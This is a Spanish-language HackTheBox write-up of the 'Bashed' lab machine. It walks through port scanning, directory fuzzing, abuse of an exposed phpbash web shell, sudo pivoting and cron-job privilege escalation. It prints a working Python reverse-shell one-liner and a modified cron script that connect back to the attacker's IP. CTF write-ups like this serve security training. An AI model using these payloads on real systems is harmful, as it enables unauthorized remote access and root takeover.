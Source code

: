 ```yaml
---
title: 'Bashed'
description: 'Write-Up de la máquina Bashed de HackTheBox'
pubDate: 'Jul 07 2025'
image: '/htb/bashed/placeholder.png'
heroImage: '/htb/bashed/placeholder.png'
private: false
category: 'writeups'
tags: ['htb', 'web', 'linux', 'python', 'fuzzing', 'php', 'reverse shell', 'privilege escalation']
---
```


## Fase de reconocimiento
### Puertos y servicios
Comenzamos con un escaneo con `nmap` para identificar los servicios, con la flag `-sV` para detectar versiones y `-sC` para ejecutar los scripts por defecto.

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

Vemos solo el puerto 80 abierto y el servicio que corre es `Apache 2.4.18` en `Ubuntu`. Al ver la web, vemos que es un blog de desarrollo de Arrexel, y que tiene un post sobre una herramienta llamada `phpbash`, en la cual nos indica que es una herramienta para ejecutar comandos de shell a través de PHP, y que la misma web la utiliza.

Al acceder al repositorio de GitHub, y en las capturas, nos indican que la ruta donde está ubicada la herramienta es en `/uploads/phpbash.php`, pero al intentar acceder a esa ruta, nos da un error 404, por lo cual decidimos fuzzear.

### Fuzzing
Para el fuzzing, usaremos wfuzz desde la raíz del sitio, con el objetivo de descubrir la ubicación de la herramienta `phpbash.php` u otros directorios interesantes. Ejecutamos el siguiente comando:

```bash
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.129.29.77/FUZZ
```

* -c Para mostrar los resultados en color.
* --hc=404 Para ocultar los resultados con código 404.
* -t 200 Para establecer el número de threads a 200.
* -w Para indicar el wordlist a utilizar.

Finalmente, en los resultados podemos ver una ruta que nos puede interesar. `/dev`

```bash
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                         
=====================================================================
000000003:   301        9 L      28 W       313 Ch "images"                                                       
000000001:   200        161 L    397 W      7743 Ch     "http://10.129.29.77/"                                          
000000325:   301        9 L      28 W       310 Ch      "php"                                                          
000000537:   301        9 L      28 W       310 Ch      "css"                                                          
000000940:   301        9 L      28 W       309 Ch      "js"                                                           
000000821:   301        9 L      28 W       310 Ch      "dev" 
```

Al acceder a la ruta, vemos que tiene Directory Listing habilitado, lo que nos permite visualizar los archivos, incluyendo la herramienta phpbash.php que estábamos buscando.

## Fase de explotación
PHPBash, como su nombre indica, es una herramienta que nos permite ejecutar comandos de shell a través de PHP. Al acceder a la herramienta, vemos que tiene un campo para ingresar comandos, sin embargo, trabajar con ella resulta incómodo, no podemos limpiar consola ni agregar alias. Por lo cual procederemos a ganar una reverse shell y así poder hacer un tratamiento de la TTY y ejecutar los comandos de forma más cómoda.

### Reverse Shell
Para la reverse shell, podemos usar el repositorio de PayloadsAllTheThings, que tiene una gran variedad de payloads para diferentes lenguajes y tecnologías. En este caso, vamos a usar el payload de Python.

```bash
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.230",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

Una vez accedimos, procedemos a hacer el tratamiento de la tty y a ejecutar un pequeño alias para más comodidad:

```shell
export TERM=xterm; export SHELL=bash; alias ll="ls -lha";
```

## Fase de escalada de privilegios
### Buscando escalado
Antes de comenzar a buscar escalado, vamos a ver qué usuarios existen en la máquina, listando el contenido del archivo `/etc/passwd`:

```bash
cat /etc/passwd | grep "sh"

root:x:0:0:root:/root:/bin/bash
arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
```

Vemos a `arrexel` y `scriptmanager` como usuarios, y a root como el usuario administrador. Vamos a ver si podemos escalar a alguno de estos usuarios.

### Escalada a ScriptManager
Como usuario `www-data`, podemos ejecutar `sudo -l` para ver si tenemos permisos de sudo y qué comandos podemos ejecutar:

```bash
sudo -l

User www-data may run the following commands on bashed:
  (scriptmanager : scriptmanager) NOPASSWD: ALL
```

Vemos que podemos ejecutar comandos como el usuario `scriptmanager` sin necesidad de contraseña. Por lo cual, podemos hacer un `sudo -u scriptmanager -i` para iniciar sesión como ese usuario.

### Obteniendo root
Ya como scriptmanager, volvemos a ejecutar `sudo -l` para ver qué permisos tenemos, sin embargo esta vez nos bloquean pidiendo la contraseña del usuario.

También podemos ver los grupos a los que pertenecemos, pero no vemos nada interesante.

Un tercer paso, es ver a que ficheros tenemos permisos de escritura, para verificar si podemos modificar archivos ejecutados por root o crear condiciones de escalada de privilegios. Para esto, podemos usar el comando `find`, también recomiendo usar `grep` para filtrar los resultados y evitar directorios como `/proc` o `/sys` que no nos interesan.

```bash
find / -writable -type f 2>/dev/null | grep -vE "proc|sys"

# Resultados relevantes:
scripts/test.py
/home/scriptmanager/.profile
/home/scriptmanager/.bashrc
/home/scriptmanager/.bash_history
/home/scriptmanager/.bash_logout
/var/www/html/uploads/index.html
```

Vemos que existe un fichero llamado `/scripts/test.py`, que parece ser un script de Python. Vamos a ver su contenido para ver si podemos hacer algo con él.

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

Es un script bastante sencillo que simplemente escribe en un fichero llamado `test.txt` con el texto "testing 123!". Sin embargo, si listamos el directorio donde se encuentra, podemos ver que existe un fichero llamado `test.txt`, el cual fue creado recientemente por el usuario `root`, lo que sugiere que el script se ejecuta automáticamente mediante una tarea cron.

Podemos aprovechar esto para modificar el script e insertar un payload que nos de una reverse shell como root. Para esto, vamos a reutilizar el mismo payload de Python que usamos anteriormente, pero esta vez lo insertamos directamente en `test.py`:

```python
import socket, os, pty

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Conectamos al servidor y puerto donde queremos recibir la reverse shell
s.connect(("10.10.14.230", 443))

os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

pty.spawn("/bin/sh")
```

Ahora solo nos queda esperar a que la tarea cron se ejecute y ya tendremos acceso como root.

```
listening on [any] 443 ...
connect to [10.10.14.230] from (UNKNOWN) [10.129.99.222] 33854
# whoami
whoami
root
# 
```

A pesar de que es una máquina fácil, el no ver el header de la versión de PHP nos puede hacer dar vueltas por un largo tiempo, por lo cual siempre es recomendable seguir una estructura e ir revisando paso a paso cada información.